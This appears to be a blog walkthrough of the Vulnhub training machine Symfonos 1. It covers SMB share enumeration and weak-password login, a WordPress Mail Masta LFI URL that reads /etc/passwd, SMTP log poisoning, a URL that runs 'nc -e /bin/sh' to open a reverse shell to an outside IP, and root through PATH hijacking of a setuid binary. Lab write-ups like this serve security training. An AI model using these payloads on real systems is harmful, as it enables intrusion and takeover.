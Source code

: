 ```yaml
---
layout: PostSimple
date: 2020-03-08
title:     "Vulnhub - Symfonos 1"
tags: ['wordpress','easy','log-poisoning','smb','path','lfi','setuid']
---
```


Today, We are going to pwn Symfonos 1 by Zayotic from Vulnhub

## Description:

```
Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.

    Name: symfonos: 1
    Difficulty: Beginner
    Tested: VMware Workstation 15 Pro & VirtualBox 6.0
    DHCP Enabled

Note: You may need to update your host file for symfonos.local

```
Download Link : [https://www.vulnhub.com/entry/symfonos-1,322/](https://www.vulnhub.com/entry/symfonos-1,322/)


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:42:7C:AD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m23s, deviation: 3h27m50s, median: 23s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: [unknown](unknown), NetBIOS MAC: [unknown](unknown) (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2020-03-08T00:09:12-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T06:09:12
|_  start_date: N/A

```

## SMB:

I started with ``SMB`` we can use ``smbmap`` to see is there any files available.
>smbmap - SMB enumeration tool

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/1.png)
```
-H HOST
              IP of host
```

So ``helios`` and ``anonymous`` are there and also ``attention.txt`` file.

There is a tool called ``smbclient`` which helps to access to the server.

>smbclient - ftp-like client to access SMB/CIFS resources on servers

First I tried with ``helios`` I can't login without password, So next is ``anonymous`` which I get logged in without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/2.png)[br/](br/)
Downloaded the ``attention.txt`` to my machine.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/3.png)[br/](br/)
This file contains a warning to the users to not use these password.

I tired again ``smbclient`` with ``helios`` with these 3 passwords.

> smbclient //192.168.1.101/helios -U helios

> -U, --user=USERNAME                       Set the network username

I logged in with ``qwerty`` and found 2 files, Downloaded them to my machine.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/4.png)

``research.txt``

```
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
```
``todo.txt``

```
1. Binge watch Dexter
2. Dance
3. Work on /h3l105
```
``todo.txt`` told us to work on ``/h3l105`` it may be a directory. So I checked it in the webpage.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/5.png)

So Its a ``Wordpress`` site. We can use ``wpscan`` to enumerate users and plugins.

Found 2 plugins, I searched for any exploits available for them.
>wpscan --url http://symfonos.local/h3l105/ --enumerate p

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/6.png)[br/](br/)
Found this LFI 
> https://www.exploit-db.com/exploits/40290

> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/7.png)

Now time to change LFI to RCE, we can do it by ``Log poisoning``so I tried to access ``/var/log/apache2/access.log`` but its not working.
We know port ``SMTP`` is open.

>The Simple Mail Transfer Protocol is a communication protocol for electronic mail transmission.

So the user might have a mail and I found [SMTP Log poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/)

Found users mail log ``/var/mail/helios``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/8.png)

By following the article, Payload is injected [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/9.png)

Now we can get reverse shell
> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc%20-e%20/bin/sh%20192.168.1.103%201234

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/10.png)

## Privilege Escalation:

Uploaded my Enumeration Script to the machine and found a ``SETUID`` file.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/11.png)

When I run the file it prints the header of the webpage, and I did ``strings`` found ``curl`` is working and its path is not fully defined.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/12.png)

So I checked where is ``curl`` and its is in ``/usr/bin/curl``.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/15.png)

So we can create a file to give us shell and placed it in ``/tmp`` and name it as ``curl`` and change the PATH to ``/tmp``.

This command will make the PATH to search in ``/tmp`` first
> export PATH=/tmp:$PATH

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/13.png)

Once I execute the ``statuscheck`` the ``curl`` checks in ``/tmp`` first and it will make use of our file and give us root.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/14.png)

Rooted!!